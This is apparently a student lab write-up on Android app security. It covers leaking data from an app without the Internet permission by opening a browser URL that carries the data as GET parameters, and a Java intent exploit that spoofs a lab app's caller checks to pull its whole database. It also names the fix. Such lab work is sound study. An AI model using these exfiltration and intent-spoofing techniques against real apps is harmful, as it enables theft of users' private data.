


# 1 - No-permission apps

In this part, we will exfiltrate some data to a server, without using
the `Internet` permission.

First, we need to setup a web server. Here, it is a localhost server
running on port 3001, so its address is `10.0.2.2:3001` on the emulated
device.

Then, we populate the database on the app:



When we want to exfiltrate the data, we just have to create an intent to
open our server webpage with GET parameters, like
`http://10.0.2.2:3001/?secret1=abc&secret2=def`.

In our example, the server received this:



On android and iOS, apps are sandboxed and heavily restricted, as
opposed to desktop apps. If an app wants to access a private resource
(camera, location, etc), it needs to be explicitely allowed to do so by
the OS and the user. The goal is to make these apps as secure and as
privacy-aware as possible. While on desktop a simple Tetris has read and
write access to all user files, on android even a vulnerable app is
limited in its action. it also hints on illegitimate apps; for examle,
the flashlight app shouldn't require microphone access.

However, here our application uses a simple trick to bypass this
permission system. It will open the web browser on a specific page, and
while it usually is quite innocent since the webpage cannot talk back to
the app, it is enough to leak informations using GET parameters. It
should be noted however that, first, the data accessible is only our own
data, which limits the damages possible, and that this method isn't very
discreet, as the user clearly sees its browser opening.

# 2 - Malicious intents


In the MACLocation app, the `DatabaseActivity.onCreate` method will, as
its name suggests, create the app. It will look at the caller intent and
act differently depending on its action. Here, if the field
`"ITEM_ACTION"` is set to `"GET_ITEMS_ACTION"`, it will retrieve all
database content and send it back to the caller.

The problem is that if a third-party app opens this activity with the
right action, the activity won't check which app the intent is coming
from and will exfiltrate all its database to the external app through
the result intent.

The intent code is the following one:

```java
// Activity intent
Intent i = new Intent(Intent.ACTION_MAIN);
// Explicitely set the component that will receive the intent
i.setComponent(new ComponentName(
    "lbs.lab.maclocation", // Target package
    "lbs.lab.maclocation.DatabaseActivity" // Target activity
));
// MIME data type, equal to `DatabaseActivity.class.getCanonicalName()`
//  Used to trick the DatabaseActivity condition
i.setType("lbs.lab.maclocation.DatabaseActivity");
// Action, here fetch all data, but could also be SET_ITEMS_ACTION to
//  override the database content
i.putExtra(ITEM_ACTION, GET_ITEMS_ACTION);
```

There are currently a few checks in `DatabaseActivity`:
- The MIME data type should be set to
`"lbs.lab.maclocation.DatabaseActivity"`, which is easy to set
- The `"ITEM_ACTION"` field should be set to `"GET_ITEMS_ACTION"`, again
we could guess it using the source code or a decompiler
- The caller activity should be named `MainActivity`, easy to spoof

This last check is the one which should be changed. Instead of checking
the value of `getShortClassName()` to compare the activity names, it
should use `getClassName()`, that will differentiate
`lbs.lab.maclocation.MainActivity` and `lbs.lab.macintent.MainActivity`.

Finally, once the data retrieved, we need to deserialize it by creating
our own implementation of `lbs.lab.maclocation.Item`, and then
exfiltrate it like we did previously in the first part.

# 3 - Protections and mitigations
